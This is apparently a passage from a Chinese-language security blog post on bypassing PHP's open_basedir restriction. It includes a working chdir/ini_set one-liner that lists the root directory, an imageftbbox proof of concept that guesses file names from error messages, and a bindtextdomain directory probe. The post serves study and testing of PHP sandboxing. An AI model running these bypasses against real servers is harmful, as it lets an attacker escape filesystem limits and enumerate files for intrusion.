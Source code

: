 ```php
mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));
```

一些分析：  
<https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/>  
好吧我实在是看不下去底层了...还是功底不够..还得练

GD库imageftbbox/imagefttext
==========================

看了一下其实和前面的realpath一样都是通过一些报错来进行猜解  
当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

POC：

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```

bindtextdomain暴力执法
==================

emm原理还是一样但是鸡肋，因为Windows下面默认没有这个函数&amp;&amp;linux下面是不能使用通配符进行绕过所以如果上面的方法都没有用才会考虑这些猜解的问题

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

reference
=========
